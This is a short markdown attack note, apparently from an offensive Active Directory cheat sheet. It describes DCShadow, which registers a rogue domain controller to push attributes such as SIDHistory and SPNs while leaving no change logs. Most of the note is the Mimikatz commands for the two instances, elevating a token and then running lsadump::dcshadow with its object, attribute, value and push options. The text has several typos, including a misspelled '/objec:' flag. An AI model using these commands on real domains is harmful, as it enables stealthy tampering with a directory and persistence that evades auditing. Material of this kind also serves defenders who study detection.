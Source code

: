 # Forest Attacks - Cross Forest Attacks
DCShaodw temporarliy registers a new domain controller in the domain and uses it to push attributes like SIDHistory , SPNs and etc without leaving change logs for objects.

New domain controller is registered by modifying configuration , SPNs of existing computer object and couple of RPC services


## Mimikatz

We need two instances of mimikatz for `DCShadow`

```
!+
!processtoken
lsadump::dcshadow /objec:rootuser /attribute:Description /value="Hello from DCShadow"
```

And the second instance with domain admin privileges 

```
lsadump::dcshadow /push
```
